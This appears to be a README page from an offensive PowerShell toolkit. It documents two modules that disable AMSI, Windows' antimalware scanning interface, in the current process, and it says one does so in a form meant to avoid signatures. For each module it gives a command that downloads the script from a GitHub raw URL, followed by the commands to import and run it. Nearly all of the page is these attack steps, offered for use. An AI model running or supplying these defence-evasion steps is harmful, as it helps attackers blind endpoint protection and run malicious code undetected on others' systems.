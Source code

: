 ## Module Name
   <b><i>AMSBP.ps1</i></b>

|Function name|Description|Privileges
|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

```powershell
Import-Module -Name .\AMSBP.ps1 -Force
AMSBP
```

<br />

## Module Name
   <b><i>Disable-Amsi.ps1</i></b>
   
|Function Name|Description|Privileges
|---|---|---|
|Disable-Amsi|disable AMSI within current process using well<br />known techniques laid out in an unsignatured way</i></b>|User Land|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.ps1" -OutFile "Disable-Amsi.ps1"
```

```powershell      
Import-Module -Name .\Disable-Amsi.ps1 -Force
Disable-Amsi -DontDisableBlockLogging
```   
